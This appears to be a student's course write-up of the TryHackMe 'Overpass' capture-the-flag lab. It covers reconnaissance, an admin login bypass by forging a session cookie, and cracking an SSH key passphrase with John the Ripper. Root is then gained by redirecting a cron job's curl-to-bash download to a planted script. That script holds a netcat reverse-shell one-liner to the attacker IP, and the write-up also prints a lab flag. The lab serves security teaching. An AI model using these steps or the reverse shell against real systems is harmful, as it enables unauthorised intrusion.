 Ruben Valdez
CSEC 5306 _ Computer Networks and Security
Prof. Alsmadi
Assignment: Lab 8 - Overpass

---

# TryHackMe - Overpass

<br>

## Machines

Attacker IP:    `10.10.108.208`

Target IP:      `10.10.179.84`

<br>

## Q1. Hack the machine and get the flag in user.txt

Ran an Nmap scan to the target IP `10.10.25.161`.  Ports, Protocal, and Service for SSH (22) and HTTP (80) are open.

Command used `nmap -sV -vv 10.10.25.161`

![alt text](<Screenshot 2024-03-22 at 8.24.29 AM.png>)


Now that we know what open ports there are, we can further investigate the webpage for the IP address `10.10.25.161` to access the `Overpass - Security password manager` website.  

![alt text](<Screenshot 2024-03-22 at 8.28.02 AM.png>)


Using Firefox to view the source code of the webpage, we don't really see much useful information, but we can see a string of text that is commented to that could be read as sarcastic.  `

![alt text](<Screenshot 2024-03-21 at 9.26.32 PM.png>)



In an effort to find any pages that might be hidden, I utilized `Gobuster` to scan the for any pages that aren't viewable by the naked eye when first attempting to visit the website @ `10.10.25.161`.  The results of the page scan shows a few pages, but the one that really seeks my attention is the `/admin` page.   

Command used `gobuster dir -u http://10.10.25.161 -w /usr/share/wordlists/dirb/common.txt`

![alt text](<Screenshot 2024-03-22 at 8.32.31 AM.png>)

![alt text](<Screenshot 2024-03-22 at 8.33.19 AM.png>)


In analyzing the source code of the /admin page, we can assess that there's some code pertaining to setting a cooking named `SessionToken`

![alt text](<Screenshot 2024-03-21 at 4.00.17 PM.png>)


If we were to utilize the Firefox's web developer tools, we can attempt to hack the /admin logon page.   

On the browser tool bar, click the following `Tools > Browser Tools > Web Developer Tools`.  In the tools window, click the `Debugger` and locate the `Cookies.set("SessionToken",statusOrCookie)`.  After locating the `SessionToken`, click the Storage tab and on the side menu, click the Cookies drop down and choose the the webpage/site.  Click the `+` to add an item.  Double click the item that populates and change the name of it to `SessionToken`

![alt text](<Screenshot 2024-03-22 at 9.04.40 AM.png>)

![alt text](<Screenshot 2024-03-22 at 9.21.33 AM.png>)


Another option to successfully access to the /admin logon page instead of using the Storage tab, is using the Console tab.   Using the same code `Cookies.set(“SessionToken”,"statusOrCookie")` just modify the part of the code `statusOrCooking` to `Cookies.set(“SessionToken”,"")`.  Click enter and refresh the page.   This to will gain admin access to the page to view the SSH private key.   

![alt text](<Screenshot 2024-03-22 at 9.21.33 AM.png>)


***Note:  In any scenaria, whether directly adding the `SessionToken` using Storage or the Console, the end result is that the Cookie does infact automatics gets added to the Storage > Cookies tab.***


Attempting to follow the labs writeup instructions, there was an error of trying to locate ssh2john.py.  After some research attempting to locate john, I found that John and all the other programs associated to it were found in the `/root/Tools/Password Attacks/john` directory and NOT the easier way to navigate to John by clicking `Applications > Password Cracking > John the Ripper`.  Now that I have been able to locate the correct directory, i can now we can get the `rsakey` file into a formate readable by John.

***NOTE:  `John the Ripper` (JtR) is a great program able to crach hash algorithms.  `ssh2john` converts SSH private keys to a hash format that JtR can understand and crack.***

![alt text](<Screenshot 2024-03-22 at 9.59.09 AM.png>)

![alt text](<Screenshot 2024-03-22 at 10.00.46 AM.png>)

![alt text](<Screenshot 2024-03-22 at 10.01.02 AM.png>)


Now we can attempt to crack `rsajohn` using the following command `john --wordlist=/root/Desktop/Tools/wordlists/rockyou.txt rsajohn`.  The passphrase JtR was able to crack is `james13`.

![alt text](<Screenshot 2024-03-22 at 10.13.23 AM.png>)

<br>

***MY session expired and needed to restart the assignment.  My new targe IP is `10.10.134.36`***

Before attempting to SSH we need to change the permissions to the `rsakey` file;  `chmod 600 rsakey`.

Now that we cracked the hash using JtR and now have the `rsakey` passphrase, we can now SSH into the target box using the following command; `ssh -i rsakey james@10.10.134.36`.

![alt text](<Screenshot 2024-03-22 at 10.56.05 AM.png>)


After successfully using SSH to logon to James computer remotely, we can now view and access files and system to answer Question 1 by performing the following commands: 

- `ls` to view the files
- `cat user.txt` to view the file contents.
    - `thm{65c1aaf000506e56996822c6281e6bf7}` is contents of the file and also the the flag.

        ![alt text](<Screenshot 2024-03-22 at 10.59.02 AM.png>)


<br>


## Q2.  Escalate your privileges and get the flag in root.txt

***Stopped the lab and need to restart the machines.  New IPs were created***

```
Attacker IP:    10.10.108.208
Target IP:      10.10.179.84
```

<br>

Just out of curiousity, I ran the `ll` command to view any hidden files.  We can see in the output, there's a file  named `.overpass`.  To dig a bit deeper, I used the command `cat .overpass` to view the contents.   

Contents appears to be some type of encoding or hash; `,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.`

![alt text](<Screenshot 2024-03-22 at 10.01.54 PM.png>)


In `Task 1` we listed the the contest available on the Desktop by performing the `ls` command.  We already view the `user.txt` to obtain the first flag.  Now let view the contents of the `todo.txt` file

![alt text](<Screenshot 2024-03-22 at 11.49.51 AM.png>)

The note indicates `automated build script` and usually cron jobs are useful in settup up automated jobs.  Before doing anything else, I changed to the `/etc` directory to view the folders/files.  

- I ran the command, `cat /etc/cronjob`.  In the file we can view update builds from the latest code are from `* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`.

    ![alt text](<Screenshot 2024-03-22 at 11.51.48 AM.png>)


- Since we looked at the cronjobs the noxt logical step in the process is to view the hosts.  Using the command `cat /etc/hosts` I was able to view the all the hosts there were connections to.  Here we were able to modify on the host `127.0.0.1` to use the attacker's IP `10.10.108.208`.  For learning and educational purposes I just `#` commented the line out and added the attacker IP. 

    ![alt text](<Screenshot 2024-03-22 at 10.06.06 PM.png>)

    ![alt text](<Screenshot 2024-03-22 at 10.25.51 PM.png>)



In a previous step, we identified `Update build from latest code * * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`.  Using this, I needed to create the following directory/file on the attacker machine, `downloads/src/buildscript.sh`.   Opening a new terminal tab, I created the following file directory and file.  In the same process I also added reverse shell script to complete a netcat connection w/in the file.  The script was obtained using `pentestmonkey.net`.

***Site:    `https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet`***

***Script:  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.108.208 1234 >/tmp/f`***

![alt text](<Screenshot 2024-03-22 at 10.45.25 PM.png>)
















